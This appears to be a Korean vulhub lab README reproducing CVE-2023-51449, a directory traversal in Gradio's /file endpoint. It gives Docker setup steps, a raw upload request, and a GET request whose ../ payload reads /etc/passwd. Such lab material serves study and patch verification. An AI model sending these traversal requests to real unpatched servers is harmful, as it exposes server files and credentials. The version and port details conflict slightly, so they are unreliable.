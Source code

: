 # Gradio /file Interface Directory Traversal (CVE-2023-51449)

디렉터리 트래버설(Directory Traversal) 및 서버 사이드 요청 위조(SSRF)

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2023-51449/README.zh-cn.md)

- **Gradio**는 사용자가 프론트트엔드 코드를 작성하지 않고도 머신 러닝 모델을 위한 시각적 웹 인터페이스를 빠르게 구축할 수 있는 Python 라이브러리이다.

- Gradio 4.11 이하 버전에서는 인증이 활성화되지 않은 경우, 공격자가 파일 경로만 알고 있다면 공개 URL을 통해 Gradio 애플리케이션을 실행하는 서버에 존재하는 임의의 파일에 액세스할 수 있다.

참고 문헌

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- [gradio-app/Make the `/file` secure against file traversal attacks and SSRF](https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2)

## 환경 설정 (Environment Setup)

Gradio 4.10.0으로 빌드된 애플리케이션을 시작하기 위해 다음 명령을 실행해야 한다.

```
docker compose up -d
```

서버가 시작되면 기본적으로 인증(Authentication)이 비활성화되어 있다.
애플리케이션은 브라우저에서 `http://[your IP]:7680` 주소로 접속할 수 있다.

## 취약점 재현 (Vulnerability Reproduction)

### 1. 파일 업로드 및 파일 경로 확보

업로드 인터페이스를 사용하여 파일을 서버에 업로드하고, 업로드된 파일의 접근 가능한 경로를 확인 및 획득한다.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

![](3.png)

### 2. 디렉터리 트래버설을 이용한 민감 파일 접근

접근 가능한 파일 경로가 확보되면 `/file` 인터페이스와 디렉터리 트래버설을 사용하여 `/etc/passwd`와 같은 서버 내 민감 파일을 읽을 수 있다.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

![](4.png)

### 3. 환경 종료 
Docker compose 서비스 종료 및 리소스 삭제 
```
docker compose down
```

## 요약

- 인증이 비활성화된 상태에서 `/file` 엔드포인트가 디렉터리 트래버설 공격에 취약하다.
- 업로드된 파일 경로를 활용하여 서버 내 임의 파일에 접근할 수 있다.
- Gradio 4.11 이상 버전에서는 해당 취약점이 패치되었다.
